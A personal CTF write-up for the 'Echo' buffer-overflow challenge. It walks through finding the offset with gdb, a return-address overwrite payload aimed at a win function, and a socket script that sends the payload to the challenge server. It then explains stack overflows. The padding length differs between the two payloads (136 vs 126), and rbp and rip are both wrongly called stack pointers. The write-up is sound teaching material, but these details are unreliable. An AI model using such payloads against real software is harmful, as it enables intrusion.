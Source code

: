 ```yaml
---
title: Echo
description: A writeup for the Echo challenge from Synk Fetch the Flag 2025 CTF. 
slug: synk-fetch-the-flag-2025-echo
date: 2025-03-30 00:00:00+0800
image: featured-image-FTF-25.png
categories:
    - CTF Writeup
    - Synk Fetch the Flag
tags:
    - CTF
    - Synk
    - Fetch the Flag 2025
    - Binary Exploitation
    - Buffer Overflow
comments: false
---
```


## Snapshot

![Challenge SnapShot](banner.png)

## Writeup
I Start by downloading the binary and decompiling using online decompiler [Binary Ninja](https://binary.ninja/). The Binary is a 64-bit ELF file. The decompiled code shows that the binary has a function called `echo` which takes a string as input and prints it to the console. The binary also has a function called `main` which calls the `echo` function with a hardcoded string.

![Decompiled from binary ninja](binary-ninja.png)

Notice that the `main` function calls the `gets` function which can be exploited to perform a buffer overflow attack. The `gets` function does not check the length of the input string, which means that we can overflow the buffer and overwrite the return address of the `main` function. This allows us to execute arbitrary code.

I will use the `gdb` debugger to analyze the binary and find the address of the `win`function. 

![GDB win function](gdb.png)

then I use the python command to create a pattern of 137 bytes and then run the binary with that input to test the buffer overflow.

![Try input string in python](python.png)

then I run the binary in `gdb` and check the stack to see if the return address has been overwritten.

![GDB check stack](gdb-check-stack.png)

Notice that the rbp (x64 stack pointer) points has been overwritten with the address. So I try input another character to see if the return address which on rip (x64 stack pointer) has been overwritten.

![GDB check stack](gdb-check-stack-2.png)

I found that the return address has been written to 0x4242424242. So I use python to create a payload that will overwrite the return address with the address of the `win` function which is `0x0000000000401216`.

```python
python -c 'print "A"*136 + "\x16\x12\x40\x00\x00\x00"' > payload.txt
```

Before running the binary, I make a fake `flag.txt` file to check if the binary is running the `win` function. The `win` function is supposed to read the flag from the `flag.txt` file and print it to the console.

```bash
echo "FTF{this_is_a_fake_flag}" > flag.txt
```

Then I run the binary with the payload and check the output.

```bash
./echo < payload.txt
```

![buffer-overflow-attack](buffer-overflow-attack.png)

Ta-da! I got the flag. The flag is `FTF{this_is_a_fake_flag}`.
The binary is vulnerable to buffer overflow attacks and can be exploited to execute arbitrary code. The `gets` function is the main vulnerability in this binary. It is important to always check the length of the input string when using functions like `gets` to prevent buffer overflow attacks.

Next, we create a script to exploit the binary on the server. The script will create a payload that will overwrite the return address with the address of the `win` function and then run the binary with the payload.

```python
import socket

def exploit(host, port, payload):
    """Sends the payload and receives the echoed text."""
    try:
        with socket.create_connection((host, port)) as s:
            # Receive the initial prompt
            prompt = s.recv(1024).decode('latin-1', errors='ignore') # Or utf-8
            print(f"Received prompt: {prompt}")

            # Send the payload
            s.sendall(payload)
            s.sendall(b"\n") # Send a newline character, very important.

            # Receive the echoed text (and any other responses)
            response = s.recv(4096).decode('latin-1', errors='ignore') # Or utf-8

            print(f"Received response: {response}")

    except ConnectionRefusedError:
        print(f"Connection refused to {host}:{port}")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    host = "challenge.ctf.games" # Replace with the actual host
    port = 31084 # Replace with the actual port number
    payload = b"A" * 126 + b"\x16\x12\x40\x00\x00\x00"  # Your payload

    exploit(host, port, payload)
```

and the flag will be printed on the console.
`flag{4f4293237e37d06d733772a087299f17}`

## Explanation Why It Works
The exploit works because the `gets` function does not check the length of the input string, which allows us to overflow the buffer and overwrite the return address of the `main` function. On the other hand, the compiler does not add any stack canaries or other protections to prevent buffer overflow attacks. This allows us to execute arbitrary code by overwriting the return address with the address of the `win` function.

### Buffer Overflow
First of all, let's understand what a buffer overflow is. A buffer overflow occurs when a program writes more data to a buffer than it can hold. This can lead to overwriting adjacent memory locations, including the return address of a function. When the function returns, it will jump to the overwritten address, which can lead to arbitrary code execution.

![Buffer Overflow Attack](buffer-overflow.png)

In x86_64 architecture, the stack grows downwards, meaning that the higher memory addresses are at the top of the stack and the lower memory addresses are at the bottom. When a function is called, a new stack frame is created, and the return address is pushed onto the stack. If we overflow the buffer, we can overwrite the return address with our own address. In diagram below, we can see how the stack looks like before and after the overflow but is x86 architecture.

![Before Overflow VS After Overflow](before-after.png)

X86_64 architecture is similar to x86 architecture but with some differences. In x86_64 architecture, the stack grows downwards, and the return address is stored in the `RIP` register. When the function returns, it jumps to the address stored in the `RIP` register. If we overflow the buffer and overwrite the return address with our own address, we can execute arbitrary code.

## References
- [The Stack](https://ctf101.org/binary-exploitation/what-is-the-stack/#:~:text=The%20esp%20%2F%20rsp%20register%20holds,at%20that%20location%20in%20memory.)